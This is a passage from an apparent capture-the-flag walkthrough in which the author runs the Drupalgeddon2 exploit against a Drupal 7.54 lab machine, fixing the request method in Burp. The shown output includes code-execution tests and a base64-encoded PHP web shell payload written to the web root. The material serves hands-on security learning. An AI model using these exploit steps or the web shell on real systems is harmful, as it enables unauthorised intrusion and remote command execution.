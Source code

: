     /usr/lib/ruby/vendor_ruby/json/common.rb:156:in `parse': 765: unexpected token at '<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML+RDFa 1.0//EN" (JSON::ParserError)
    ...[snip]...
    

Interesting. It think’s `CHANGELOG.txt` is missing? But I looked at it
earlier.

At the top of the script, there’s a place I can set a proxy. I’ll set it to
localhost:

    
    
    # Settings - Proxy information (nil to disable)
    proxy_addr = '127.0.0.1'
    proxy_port = 8080
    

I’ll clear my burp history, and then run the exploit:

![1551965316788](https://0xdfimages.gitlab.io/img/1551965316788.png)

The attempt to check `CHANGELOG.txt` is a POST, and it returns an error that
the HTTP verb is bad:

    
    
    HTTP/1.1 405 Method Not Allowed
    Allow: GET, HEAD, OPTIONS, TRACE
    Content-Type: text/html
    Server: Microsoft-IIS/7.5
    X-Powered-By: ASP.NET
    Date: Thu, 07 Mar 2019 13:19:20 GMT
    Connection: close
    Content-Length: 1293
    

I’ll turn intercept on, and run the exploit again. This time, I’ll change POST
to GET, and then let things go. I get a shell:

    
    
    root@kali# ruby 44449.rb http://10.10.10.9/
    [*] --==[::#Drupalggedon2::]==--
    --------------------------------------------------------------------------------
    [*] Target : http://10.10.10.9/
    --------------------------------------------------------------------------------
    [+] Found  : http://10.10.10.9/CHANGELOG.txt (200)
    [+] Drupal!: 7.54
    --------------------------------------------------------------------------------
    [*] Testing: Code Execution
    [*] Payload: echo WVJGKBOE
    [+] Result : WVJGKBOE
    [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"368chTEHIkCulf-OByrxM4BA-4dnOTil83SURlLwdqI"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"368chTEHIkCulf-OByrxM4BA-4dnOTil83SURlLwdqI"}}}]
    [+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
    --------------------------------------------------------------------------------
    [*] Testing: File Write To Web Root (./)
    [*] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee ./s.php
    [+] Result : [{"command":"settings","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ZhoePAwixyS4fgsUjDewohxgu6fjhuZvkuZ-7g1o5Ow"}},"merge":true},{"command":"insert","method":"replaceWith","selector":null,"data":"","settings":{"basePath":"\/","pathPrefix":"","ajaxPageState":{"theme":"bartik","theme_token":"ZhoePAwixyS4fgsUjDewohxgu6fjhuZvkuZ-7g1o5Ow"}}}]
    [!] Target is NOT exploitable. No write access here!
    [*] Testing: File Write To Web Root (./sites/default/)